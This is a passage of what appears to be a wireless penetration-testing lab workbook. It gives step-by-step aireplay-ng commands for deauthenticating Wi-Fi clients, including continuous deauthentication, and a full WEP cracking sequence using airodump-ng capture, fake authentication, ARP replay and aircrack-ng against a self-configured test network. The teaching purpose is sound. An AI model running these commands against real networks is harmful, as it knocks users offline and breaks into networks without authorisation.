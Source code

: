 ### **Exercise 3.2: Basic Deauthentication**

**Objective**: Learn client manipulation through deauthentication attacks.

```bash
# Deauthenticate all clients (5 packets)
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon

# Deauthenticate specific client
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon

# Continuous deauthentication
sudo aireplay-ng -0 0 -a 00:11:22:33:44:55 wlan0mon
```

**Monitoring Setup**:
```bash
# Terminal 1: Monitor target network
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 wlan0mon

# Terminal 2: Perform deauth attack
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon
```

---

## 🔓 Phase 4: WEP Cracking

### **Exercise 4.1: WEP Network Setup**

**Objective**: Configure a WEP network for testing purposes.

**Router Configuration**:
```
SSID: TestWEP
Security: WEP
Key: 1234567890 (40-bit)
Channel: 6
```

### **Exercise 4.2: Basic WEP Attack**

**Objective**: Perform a complete WEP cracking attack.

```bash
# Step 1: Start monitoring
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wep_capture wlan0mon

# Step 2: Fake authentication (new terminal)
sudo aireplay-ng -1 0 -a 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon

# Step 3: ARP request replay (new terminal)
sudo aireplay-ng -3 -b 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon

# Step 4: Monitor data collection
# Watch for increasing #Data packets in airodump-ng

# Step 5: Crack the key (new terminal)
aircrack-ng wep_capture.cap
```
